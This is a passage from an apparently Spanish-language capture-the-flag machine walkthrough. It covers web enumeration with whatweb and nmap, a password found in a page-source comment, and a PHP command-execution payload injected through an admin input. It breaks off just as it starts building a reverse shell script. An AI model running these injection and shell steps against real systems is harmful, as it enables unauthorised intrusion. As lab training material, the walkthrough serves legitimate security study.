 ```bash
whatweb http://10.10.10.197
```

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.27 -oN webScan
```

Ya nos detecta un `/admin.php` y un directorio `/uploads/`

#### Checkear la web del puerto 80 {-}

Abrimos la web y vemos cosas:

- El wappalizer no nos dice nada
- parece que todavia la web esta en fase de desarollo
- el directorio `/uploads/` muestra una capacidad de directory listing pero no se ve gran cosa
- el `/admin.php` nos muestra un login.
- haciendo un `Ctrl-U` no muestra una contraseña en un comentario ;)




## Evaluacion de vulnerabilidades {-}

### Chequeamos las vulnerabilidades de la pagina admin.php {-}

Ya con el usuario admin y la contraseña encontrada nos podemos logear.

Vemos un input donde podemos poner codigo **HTML**

```bash
Hola
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Funciona... Intentamos ponerle codigo **PHP**

```php
<?php system("whoami"); ?>
```

y tambien funciona...

Aqui decidimos crear una reverse shell para conectarnos al servidor.## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con una pagina html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash
